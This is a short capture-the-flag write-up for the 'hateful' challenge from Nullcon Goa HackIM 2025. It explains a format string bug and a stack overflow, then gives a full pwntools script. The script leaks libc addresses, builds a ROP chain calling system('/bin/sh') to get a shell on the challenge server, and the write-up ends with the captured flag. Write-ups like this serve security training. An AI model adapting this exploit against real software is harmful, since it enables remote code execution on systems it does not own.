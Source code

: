 
was an easy challenge from Nullcon Goa HackIM 2025 CTF

there was a format string bug in send_message function 

![fmtbug](https://github.com/user-attachments/assets/5988a3b2-0d51-49f0-b773-e2acfaaebe8e)

```
fgets(local_3f8,0x1000,stdin);
```
and our message was long enough to overwrite the saved_rip of the function...

no pie, no canary, leak the libc and do rop

as easy as it sounds


```
#!/usr/bin/env python3

from pwn import *
'''
p = gdb.debug("./hateful_patched", gdbscript="""
            b *send_message+91
            b *send_message+168
            b *send_message+185
            c
""")
'''python3
p = remote("52.59.124.14", 5020)

p.sendlineafter(b">>", b"yay")

payload = b"%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lxA%lx"
p.sendlineafter(b">>", payload)
p.recvuntil(b"provided: ")
leak = p.recvline()
print(leak)
rip = int(leak[:12], 16) - 0x2588 + 0x4b10 
print(hex(rip))
libc = int(leak[24:][:12], 16) - 0x1d2000 - 0xa80
print(hex(libc))
system = libc + 0x4c490
nop = 0x4010ff
pop_rdi = libc +  0x00000000000277e5
binsh = libc + 0x196031
payload = b"A"*1016
payload += p64(nop)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b"message!\n", payload)
p.sendline(b"/bin" + p8(u8("/") + 1) + b"/sh")

p.interactive()
```

FLAG: ```ENO{W3_4R3_50RRY_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}```

***4rsp is pwning easy challs...***

